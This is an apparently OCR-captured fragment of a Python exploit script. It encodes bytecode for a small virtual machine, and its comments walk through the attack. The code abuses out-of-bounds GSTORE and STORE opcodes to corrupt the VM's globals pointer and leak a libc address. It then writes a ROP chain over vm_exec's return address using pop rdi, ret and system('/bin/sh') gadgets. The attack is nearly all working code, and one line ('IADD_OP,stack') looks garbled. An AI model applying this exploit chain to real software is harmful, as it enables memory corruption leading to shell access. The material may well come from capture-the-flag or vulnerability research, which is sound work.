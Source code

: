 ```python
    GSTORE_OP, 0xffffffff - 0x83c + 1, # here we have overwritten the 4 lower bytes of vm->globals variable.
    # after GSTORE we have corrupted vm->globals so we can't use GSTORE anymore, because GSTORE relies in vm->globals.
    # a work around is to use STORE insted.
    # you can implement this attack with STORE instructions only but here we want to use all of our bugs :)
    STORE_OP, 0xffffffff - 0x3e0 + 1,  # here we have overwritten the 4 higher bytes of vm->globals variable.
    
    # now vm->globals points to main's return address which currently is __libc_main_start+243
    
    GLOAD_OP, 0x0,
    ICONST_OP, 0x20b3, # __libc_main_start+243 offset.
    ISUB_OP, # We have calculated libc address.
    
    GSTORE_OP, 0x0, # Store libc starting address for future use.
    # you don't need to save the 4 upper bytes of libc address because main return address is __libc_start_main+243 which already has the upper 4 bytes filled
    # for us.

    # Start of the exploit chain.
    
    # overwrite vm_exec's return address.
    GLOAD_OP, 0x0, # load (4 lower bytes) libc address again.
    ICONST_OP, 0x1b72, # load pop rdi; ret; gadget.
    IADD_OP,

    # vm->globals[0xffffffff - 0x8f] = vm_exec return address
    # so writing after 0xffffffff - 0x8f we can fill a rop chain attack.

    GSTORE_OP, 0xffffffff - 0x8f,  # store first half of the gadget address.
    GLOAD_OP, 0x1, # load second half (upper 4 bytes) of libc address.
    GSTORE_OP, 0xffffffff - 0x8f + 1,  # store second half of the gadget address.
    
    GLOAD_OP, 0x0, # load libc address again.
    ICONST_OP, 0x1925aa, # /bin/sh offset
    IADD_OP,stack
    
    # Store /bin/sh to the stack for pop rdi; ret; gadget.
    GSTORE_OP, 0xffffffff - 0x8f + 2, 
    GLOAD_OP, 0x1,
    GSTORE_OP, 0xffffffff - 0x8f + 3, 
    
    # Store a simple ret; gadget to the stack to align the stack for system function.
    GLOAD_OP, 0x0, 
    ICONST_OP, 0x3043c, # ret gadget.
    IADD_OP,
    
    # store the ret gadget to the stack.
    GSTORE_OP, 0xffffffff - 0x8f + 4,
    GLOAD_OP, 0x1,
    GSTORE_OP, 0xffffffff - 0x8f + 5,
    
    # store system function to the stack.
    GLOAD_OP, 0x0, 
    ICONST_OP, 0x30410, # system offset
    IADD_OP, 
    
    GSTORE_OP, 0xffffffff - 0x8f + 6,
    GLOAD_OP, 0x1,
    GSTORE_OP, 0xffffffff - 0x8f + 7,
    
```